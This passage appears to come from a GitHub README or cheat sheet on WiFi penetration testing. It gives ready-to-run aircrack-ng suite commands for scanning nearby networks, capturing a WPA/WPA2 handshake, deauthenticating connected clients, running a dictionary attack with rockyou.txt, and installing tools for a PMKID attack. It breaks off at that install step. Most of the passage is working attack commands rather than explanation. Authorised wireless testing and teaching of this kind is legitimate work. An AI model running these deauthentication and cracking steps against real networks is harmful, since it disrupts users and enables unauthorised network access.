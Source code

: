 Search for WiFi networks within your range:

```fundamental
airodump-ng wlan0mon --wps -w airodump_results

wash -i wlan0mon --all
```

Monitor a specified WiFi network to capture handshakes/requests:

```fundamental
airodump-ng wlan0mon --channel 8 --bssid FF:FF:FF:FF:FF:FF --essid essid --write airodump_essid_results
```

Don't forget to stop `airodump-ng` after you are done monitoring, especially if you specified an output file, so you don't fill up all your free storage space with a big PCAP file.

Use [Kismet](https://github.com/ivan-sincek/evil-twin#additional-search-for-wifi-networks-within-your-range) or WiFi Pineapple's Recon to find more information about wireless access points, e.g. MAC address, vendor's name, etc.

## 3. Cracking

Check if your wireless card supports packet injection:

```fundamental
aireplay-ng wlan1 --test -a FF:FF:FF:FF:FF:FF -e essid
```

### WPA/WPA2 Handshake

Monitor a specified WiFi network to capture a WPA/WPA2 4-way handshake:

```fundamental
airodump-ng wlan0mon --channel 8 --bssid FF:FF:FF:FF:FF:FF --essid essid --write airodump_essid_results
```

Deauthenticate clients from a specified WiFi network:

```fundamental
aireplay-ng wlan1 -a FF:FF:FF:FF:FF:FF -e essid --deauth 10
```

Start a dictionary attack against a WPA/WPA2 handshake:

```fundamental
aircrack-ng -b FF:FF:FF:FF:FF:FF -e essid -w rockyou.txt airodump_essid_results*.cap
```

### PMKID Attack

Crack the WPA/WPA2 authentication without deauthenticating the clients.

Install required set of tools on Kali Linux:

```bash
apt-get update && apt-get -y install hcxtools
```
